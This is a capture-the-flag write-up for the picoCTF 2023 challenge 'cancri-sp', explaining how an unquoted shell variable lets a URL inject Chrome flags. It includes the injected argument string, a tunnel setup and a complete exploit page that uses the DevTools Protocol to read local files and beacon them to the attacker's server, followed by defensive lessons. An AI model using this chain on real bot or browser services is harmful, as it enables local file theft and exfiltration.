

<h1 align="center">🦀 cancri-sp</h1>
<p align="center">
  <b>picoCTF 2023 Web Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  An Unquoted Shell Variable, Chrome Argument Injection, and the DevTools Protocol
</p>

---

# 📋 Environment

| Item       | Value                                                                 |
| ---------- | --------------------------------------------------------------------- |
| Event      | picoCTF 2023 (run on CyLab Security Academy)                          |
| Category   | Web Exploitation                                                      |
| Difficulty | Hard (500 pts, unsolved during the original competition)             |
| Author     | NotDeGhost                                                            |
| Handout    | `source.tar.gz` (1.07 GB patched Chromium tree + `template/`)         |
| Intended   | Browser pwn: heap overflow in a custom `OtterBrokerService` Mojo interface |
| Actual     | Unintended: argument injection in `run.sh` to open a debug port       |
| Tools Used | a Cloudflare quick tunnel, a small Python HTTP server, the Chrome DevTools Protocol |

---

# 🗺️ Overview

> *Life is short; opportunity fleeting; the experiment perilous; judgment flawed.* Hints: "CSP has many meanings", "sp stands for solana pwnable", "outbound TCP only on ports 80 and 443".

The challenge looks like a browser-pwn: it ships a patched Chromium with a custom `OtterBrokerService` Mojo interface, and that interface does contain a real heap overflow (see the appendix). But the launcher script has a much simpler flaw. It drops the attacker-supplied URL into the `chrome` command line **unquoted**, so a space injects arbitrary Chrome flags. Turn on the remote debugging port and drive Chrome through the DevTools Protocol to open `file://` URLs and read the flag off disk.

Steps:
* Spot the unquoted `$1` in `run.sh`
* Inject Chrome flags to open a remote debugging port
* Use the DevTools Protocol from the exploit page to enumerate and read `/challenge/`

---

# 📑 Table of Contents

1. [The Launcher Bug](#the-launcher-bug)
2. [Argument Injection](#argument-injection)
3. [Reaching the Debug Port](#reaching-the-debug-port)
4. [Reading the Flag via DevTools](#reading-the-flag-via-devtools)
5. [The Exploit Page](#the-exploit-page)
6. [Flag](#-flag)
7. [Attack Chain Summary](#attack-chain-summary)
8. [Lessons and Takeaways](#lessons-and-takeaways)
9. [Appendix: The Intended Bug](#appendix-the-intended-bug)

---

# The Launcher Bug

`GET /bot?target=<url>` in `server.js` requires `target` to start with `http://` and passes it as a single argv element to `run.sh`:

```js
if (typeof url != "string" || !url.startsWith("http://")) return res.end("bad");
spawnSync(__dirname + "/../run.sh", [url], { env: {}, timeout: 3 * 1000, cwd: "/" });
```

`run.sh` drops that value onto the `chrome` command line **without quotes**:

```bash
exec $SCRIPT_DIR/src/out/Final/chrome \
  --enable-blink-features=MojoJS --headless --disable-gpu \
  --remote-debugging-pipe --user-data-dir=/does-not-exist \
  --disable-dev-shm-usage --no-sandbox \
  $1 3<&0 4>/dev/null       # <-- $1 is UNQUOTED
```

Unquoted `$1` means the shell word-splits it. Any space turns the remainder into **extra command-line arguments to `chrome`**. The `http://` check is satisfied by the first token, which Chrome treats as the page to open; everything after the first space becomes flags.

> **In plain terms:** the server thinks it's handing Chrome one thing (a web address). But because the address is not wrapped in quotes, the shell reads spaces inside it as separators and splits it into several things. So an "address" like `http://me/ --foo --bar` becomes: open `http://me/`, and also turn on options `--foo` and `--bar`. We get to add options to the browser it never meant to allow.

---

# Argument Injection

The `target` value used:

```text
http://bouquet-rosa-cookies-totals.trycloudflare.com/ --disable-web-security --remote-debugging-port=9222 --remote-allow-origins=* --headless=new
```

which the shell expands to:

```text
chrome ...stock flags... http://bouquet-rosa-cookies-totals.trycloudflare.com/ --disable-web-security \
       --remote-debugging-port=9222 --remote-allow-origins=* --headless=new
```

- `http://bouquet-rosa-cookies-totals.trycloudflare.com/` is the page Chrome opens (the exploit page).
- `--remote-debugging-port=9222` opens the DevTools Protocol on `localhost:9222` **inside the challenge container**.
- `--remote-allow-origins=*` lets your page's origin talk to that endpoint (required on modern Chrome).
- `--disable-web-security` lets your page make the cross-origin requests to `localhost:9222`.
- `--headless=new` gave consistent behavior.

You do not control an existing flag's value, only append new flags. That is enough: the debug port is the primitive.

Encode and fire (spaces become `%20`):

```python
import urllib.parse
base = "http://bouquet-rosa-cookies-totals.trycloudflare.com/"
payload = base + " --disable-web-security --remote-debugging-port=9222 --remote-allow-origins=* --headless=new"
url = "http://chatelaine.cylabacademy.net:24137/bot?target=" + urllib.parse.quote(payload, safe="")
print(url)
```

---

# Reaching the Debug Port

The exploit page has to be served from a public `http://` address the bot can reach (outbound is 80/443 only, and the target must begin with `http://`). A **Cloudflare quick tunnel** is the quickest option and needs no account or public IP. Work from `~/Desktop/BugBounty/PicoCTF/cancri-exploit`:

```bash
cloudflared tunnel --url http://localhost:8080
# -> https://bouquet-rosa-cookies-totals.trycloudflare.com
#    (its http:// form satisfies the startsWith check)
```

Three terminals: (1) `cloudflared`, (2) the Python server on `8080`, (3) the one that generates and fires the `/bot` URL.

`localhost:9222` lives **inside the bot's container**, not on your machine. The exploit page, running in the bot's Chrome, is what talks to it. You never connect to it directly from your own box.

---

# Reading the Flag via DevTools

The DevTools HTTP endpoint `PUT /json/new?<url>` opens a tab at `<url>` and returns a `webSocketDebuggerUrl`; connect and drive it with `Runtime.evaluate` / `Page.navigate`.

Enumerating `file:///challenge/` returned the real, randomized layout:

```text
Index of /challenge/
  artifacts.tar.gz                              1.0 GB
  flag-57eff6502d10e3e6305c385321f5822d          18 B
  metadata.json                                  29 B
```

So the filename is discovered, not guessed, with `/flag-[a-fA-F0-9]+/`.

The route is a single pass, shaped to the harness. `spawnSync(..., { timeout: 3000 })` gives the bot's Chrome about 3 seconds, so the page opens **one** CDP target at `file:///challenge/`, polls `document.body.innerText` until the directory rows render and the `flag-<hex>` name appears, then `Page.navigate`s that same target to the flag file and reads it. One target, one navigation, one beacon.

---

# The Exploit Page

Served from the tunnel. Single CDP target, poll the directory, `Page.navigate` to the flag file, read it, beacon the result.

```html
<!doctype html><script>
const beacon = (type, data) =>
  fetch("/log?data=" + encodeURIComponent(JSON.stringify({type, data: String(data)}))).catch(()=>{});
const sleep = ms => new Promise(r => setTimeout(r, ms));

(async () => {
  try {
    // 1) open ONE CDP target at the directory
    const t = await fetch("http://localhost:9222/json/new?file:///challenge/", {method:"PUT"}).then(r=>r.json());
    const ws = new WebSocket(t.webSocketDebuggerUrl);
    let id = 0;
    const send = (method, params) => new Promise(res => {
      const myId = ++id;
      const on = e => { const m = JSON.parse(e.data); if (m.id === myId) { ws.removeEventListener("message", on); res(m.result); } };
      ws.addEventListener("message", on);
      ws.send(JSON.stringify({id: myId, method, params}));
    });
    const evalJs = expr => send("Runtime.evaluate", {expression: expr, returnByValue: true}).then(r => r.result && r.result.value);

    await new Promise(r => ws.addEventListener("open", r));

    // 2) poll the directory until the flag- filename renders
    let filename = null;
    for (let i = 0; i < 8 && !filename; i++) {
      const dir = await evalJs("document.body.innerText");
      const m = String(dir || "").match(/flag-[a-fA-F0-9]+/);
      if (m) filename = m[0];
      else await sleep(100);
    }
    if (!filename) return beacon("ERROR", "no flag- in listing");

    // 3) navigate the SAME target to the flag file and read it
    await send("Page.navigate", {url: "file:///challenge/" + filename});
    await sleep(200);
    const content = await evalJs("document.body.innerText");
    beacon("FLAG", "filename=" + filename + "\ncontent=" + content);
  } catch (e) { beacon("ERROR", e.message + " " + e.stack); }
})();
</script>
```

The flag arrives in your server log as a `FLAG` beacon.

---

# 🚩 Flag

```text
academy{d0ce6edc}
```

Flag file on this instance: `flag-57eff6502d10e3e6305c385321f5822d`.

---

# Attack Chain Summary



---

# Lessons and Takeaways

* **Quote your shell variables.** `$1` unquoted in `run.sh` is the whole bug. `"$1"` passes the value as exactly one argument; unquoted, the shell word-splits attacker input into extra `chrome` flags.
* **Argument injection is enough on its own.** Even without controlling a flag's value, appending flags to a browser gives you `--remote-debugging-port` + `--remote-allow-origins=*`, which is the full DevTools Protocol.
* **DevTools is a file read.** With the debug port reachable from a page you control, `file://` navigation plus `Runtime.evaluate` reads arbitrary local files. Enumerate the directory to recover the randomized flag name rather than guessing.
* **Budget the bot.** A 3-second `spawnSync` timeout means one CDP target, `Page.navigate` instead of a second `/json/new`, and polling instead of long fixed sleeps.
* **Read the harness first.** The challenge steers you to a hard browser-pwn heap overflow; the launcher script hands you the box for free.

---

# Appendix: The Intended Bug

The intended path is a genuine browser-process heap overflow in the custom Mojo service. In `RequestHandlerImpl::OnReceiveResponse`, the reply buffer is allocated to the attacker-controlled `Content-Length` header (`new char[Content-Length]`) but the read loop drains the entire response body into it with no bound. Since `OtterBrokerService::Init(host)` lets a MojoJS page point the browser at an attacker server, the response (and thus the overflow size and contents) is fully controlled, in the browser process, under `--no-sandbox`. Reaching the flag that way requires full PartitionAlloc browser-process exploitation. The unquoted-variable route above avoids all of it.

---

Written by **TheDingo8MyBaby**
picoCTF 2023 • cancri-sp • flag: academy{d0ce6edc}
